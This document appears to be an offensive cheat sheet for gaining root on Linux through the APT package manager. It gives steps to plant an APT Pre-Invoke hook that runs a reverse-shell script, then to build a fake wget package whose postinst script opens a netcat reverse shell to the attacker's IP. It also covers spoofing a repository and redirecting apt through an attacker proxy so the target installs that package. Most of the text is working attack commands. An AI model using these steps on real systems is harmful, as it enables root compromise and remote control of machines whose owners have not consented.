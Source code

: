 ## Requirements: Possibly a crontab that runs apt as root or the user can run apt/apt-get runs as root with sudo

### Steps:

#### 1) APT::Update::Pre-Invoke {"/bin/bash /tmp/pwn.sh"} (Create a malicious config file (pwnapt) that calls your reverse shell script)

#### 2) Create a reverse shell file (pwn.sh)

#### 3) Upload the config file to the /etc/apt/apt.conf.d/00pwn via any method you can (FTP,tftp,etc)

#### 4) Setup listener

#### 5) GG!

### BONUS!

### Apt configuration files directory: /etc/apt/sources.list.d/ (Check for any files that might contain places that are package repositories for the package manager to pull from)

## Setting up a malicious repository

### Requirements: Trace down where the apt manager of the target machine installs its packages from by checking out the /etc/apt/sources.list/ directory. Also choose a package which is already present on the target machine (wget for example).

### Steps:

#### 1) mkdir build

#### 2) mkdir -p wget/DEBIAN

#### 3) nano/vim wget/DEBIAN/control (Create the control file with the metadata)

##### Package: wget

##### Architecture: all

##### Maintainer: @WHATEVER

##### Priority: optional

##### Version: 5.0

##### Description: GGEZ!

#### 4) mkdir -p wget/usr/bin

#### 5) nano/vim wget/usr/bin/wget (Make a dummy binary)

##### #!/bin/bash

##### echo "Whatever"

#### 6) chmod 700 wget/usr/bin/mypackage

#### 7) nano/vim wget/DEBIAN/postinst (Create the malicious script)

##### #!/bin/bash

##### rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc OUR_IP PORT

#### 8) chmod 755 wget/DEBIAN/postinst

#### 9) dpkg-deb --build wget/ (Package it)

#### 10) Create a file named "Packages" with the contents:

##### Package: wget

##### Version: 5.0

##### Maintainer: WHATEVER

##### Architecture: all

##### Description: Pwnie package

##### Multi-Arch: foreign

##### Filename: pwn/wget.deb

##### Size: 800

##### MD5sum: e5c858d924abbe4effcd1fe1ca4eb21a

##### SHA1: 6822716507fe71737c635995f3f8f049d8b3cdf9

##### SHA256: 76a31c4e20bf4530027004bf7794b9c7993960d51933ce772b1594d4fc74aca5

### (You can gain the hashes for the .deb file with the md5sum, sha256sum and sha1sum respectively and the size can be gained with ls -la)

#### 11) Finish the setup using gzip

#### 12) Create the directories by replicating the repository we want to spoof with the purpose of the target apt manager downloads the package from our repository instead. Place your package in the right folder according to use case. 

#### 13) Run sudo apt-get uodate and sudo apt-get upgrade on target machine to download our malicious packages file.

##### TIP: In sudo configurations (sudo -l) if the http_proxy environment variable is kept while the command is executed as root, before doing the required setup, we can also do: export http_proxy="http://OUR_PROXY:8000"

#### 14) If the package has been downloaded, press yes to install it

#### 15) GG!
